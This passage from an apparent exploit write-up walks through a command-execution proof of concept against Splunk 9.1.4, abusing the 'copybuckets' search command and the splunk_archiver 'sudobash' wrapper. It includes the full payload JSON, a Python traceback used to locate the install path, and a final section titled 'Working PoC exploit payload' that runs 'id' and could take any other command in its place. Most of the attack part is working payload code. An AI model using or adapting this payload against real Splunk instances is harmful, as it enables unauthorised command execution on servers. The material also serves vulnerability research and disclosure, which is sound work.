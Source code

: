 and finally we need to pass our payload command `id` as additional `command` and optionally we can pass system environments by `env.`<br>
We combine both, but it's not required.
```
   \"command.arg.2\":\"-c $SOME_ENV\",
   \"env.SOME_ENV\":\"id\"
  }
 }
```
At the end we call `/opt/splunk/etc/apps/splunk_archiver/java-bin/jars/sudobash -c id`<br>
which will become internally `/bin/bash -c id`

# The PoC
## First, one step back!
The final payload structure
```
| copybuckets json="{
 \"vixes\":{
  \"vix1\": {\"provider\": \"psytester's PoC\"},
  \"vix2\": {\"provider\": \"another provider\"}
 },
  \"providers\": {
  \"providerparam\":{
   \"command.arg.1\":\"/opt/splunk/etc/apps/splunk_archiver/java-bin/jars/sudobash\",
   \"command.arg.2\":\"-c $SOME_ENV\",
   \"env.SOME_ENV\":\"id\"
  }
 }
}"
```
gives back in Events table an error in my case:
```
traceback"="Traceback (most recent call last):
  File \"/opt/splunk-9.1.4/lib/python3.7/site-packages/splunk/vix/erp_launcher.py\", line 426, in launchSplunkMRForIndexes
    _executeJavaProcesses(action, logFileName, indexFilterFunc, providers, vixes, indexes, serverId, serverName, sessionKey)
  File \"/opt/splunk-9.1.4/lib/python3.7/site-packages/splunk/vix/erp_launcher.py\", line 161, in _executeJavaProcesses
    if not c.startswith(command_prefixes) or not c.endswith('sudobash'):
TypeError: tuple for startswith must only contain str, not function
```
The error text helps us to solve the problem and question where splunk is installed.
Error message is pointing to `/opt/splunk-9.1.4/lib/python3.7/site-packages/splunk/vix/erp_launcher.py`,<br>
thus our final sudobash path will be `/opt/splunk-9.1.4/etc/apps/splunk_archiver/java-bin/jars/sudobash`

## Working PoC exploit payload
```
| copybuckets json="{
 \"vixes\":{
  \"vix1\": {\"provider\": \"psytester's PoC\"},
  \"vix2\": {\"provider\": \"another provider\"}
 },
  \"providers\": {
  \"providerparam\":{
   \"command.arg.1\":\"/opt/splunk-9.1.4/etc/apps/splunk_archiver/java-bin/jars/sudobash\",
   \"command.arg.2\":\"-c $SOME_ENV\",
   \"env.SOME_ENV\":\"id\"
  }
 }
```
